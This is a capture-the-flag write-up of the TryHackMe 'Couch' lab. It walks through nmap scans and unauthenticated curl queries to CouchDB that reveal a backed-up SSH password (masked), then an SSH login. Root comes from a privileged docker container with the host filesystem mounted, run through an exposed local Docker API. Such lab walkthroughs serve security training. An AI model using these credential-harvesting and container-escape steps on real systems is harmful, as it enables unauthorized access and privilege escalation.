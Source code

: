 # TRYHACKME Couch WriteUp
https://tryhackme.com/room/couch

#Enumeration

open ports

```nmap 10.10.115.64
Open 10.10.115.64:22
Open 10.10.115.64:5984
```
#Version scan
```nmap -sC -sV -p22,5984 10.10.115.64
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 60 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMXnGZUnLWqLZb8VQiVH0z85lV+G4KY5l5kKf1fS7YgSnfZ+k3CRjAZPuGceg5RQEUbOMCm+0u4SDyIEbwwAXGv0ORK4/VEIyJlZmtlqeyASwR8ML4yjdGqinqOUZ3jN/ZIg4veJ02nr86GZP+Nto0TZt7beaIxykMEZHTdo0CctdKLIet7PpvwG4F5Tn9MBoys9pUjfpcnwbf91Tv6i56Gipo07jKgb5vP8Nl1TXPjWB93WNW2vWEQ1J4tiyZlBeLOaNaEbxvNQFnKxjVYiiLCbcofwSdrwZ7/+sIy5BdiNW+k81rBN3OqaQNZ8urFaiXXf/ukRr/hhjY5a6m0MHn
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNTR07g3p8MfnQVnv8uqj8GGDH6VoSRzwRFflMbEf3WspsYyVipg6vtNQMaq5uNGUXF8ubpsnHeJA+T3RilTLXc=
|   256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLUyz2Tpwc5qPuFxV+HnGBeqLC6NWrmpmGmE0hk7Hlj
5984/tcp open  http    syn-ack ttl 60 CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-favicon: Unknown favicon MD5: 2AB2AAE806E8393B70970B2EAACE82E0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
#Intial access
we saw a couchdb of 1.6.1 version which seems latest version 

checking on couchdb website on port 5984

```curl
                                                                                                                      
┌──(root💀pc)-[/thm/Couch]
└─# curl http://10.10.11.227:5984/                                                                                7 ⨯
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}

```


```curl
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/_all_dbs                                                               
["_replicator","_users","couch","secret","test_suite_db","test_suite_db2"]

```
we got couch, secret, test_suite_db, test_suite_db2, databses

Lets try to access it

checking couch database
```curl
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/couch/_all_docs
{"total_rows":1,"offset":0,"rows":[
{"id":"f0bb09beb50bf8371c63ee04e100000d","key":"f0bb09beb50bf8371c63ee04e100000d","value":{"rev":"2-9f158e0d83fd380791272869372d90cd"}}
]}
               
```
accessing couch database with id "f0bb09beb50bf8371c63ee04e100000d"

```curl 
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/couch/f0bb09beb50bf8371c63ee04e100000d
{"_id":"f0bb09beb50bf8371c63ee04e100000d","_rev":"2-9f158e0d83fd380791272869372d90cd","unnamed":null}
      
```
we don't have anything intresting lets move to another database Secret

checking secret database
```curl
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/secret/_all_docs 
{"total_rows":1,"offset":0,"rows":[
{"id":"a1320dd69fb4570d0a3d26df4e000be7","key":"a1320dd69fb4570d0a3d26df4e000be7","value":{"rev":"2-57b28bd986d343cacd9cb3fca0b20c46"}}
]}
             
```

accessing secret database

```curl
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/secret/a1320dd69fb4570d0a3d26df4e000be7
{"_id":"a1320dd69fb4570d0a3d26df4e000be7","_rev":"2-57b28bd986d343cacd9cb3fca0b20c46","passwordbackup":"atena:<password hidden>"}
                                                                                                                      
```
we got username and password 
i.e.., atena:<password hidden>

Lets try to ssh into the machine

```ssh
┌──(root💀pc)-[/thm/Couch]
└─# ssh atena@10.10.11.227
atena@10.10.11.227's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Wed Jun 30 23:01:24 2021 from 10.17.5.228
atena@ubuntu:~$ 
```

we got access with those credentials

Lets get th user.txt flag

```user.txt
atena@ubuntu:~$ cat user.txt 
THM{*********}
```

#Privilage escalation

```cat /home/atena/.bash_history
<READIACTED>
docker images
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
exit
```
#Getting Root shell

```docker
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # 
```

getting root flag


```cat /mnt/root/root.txt
THM{*******}

```
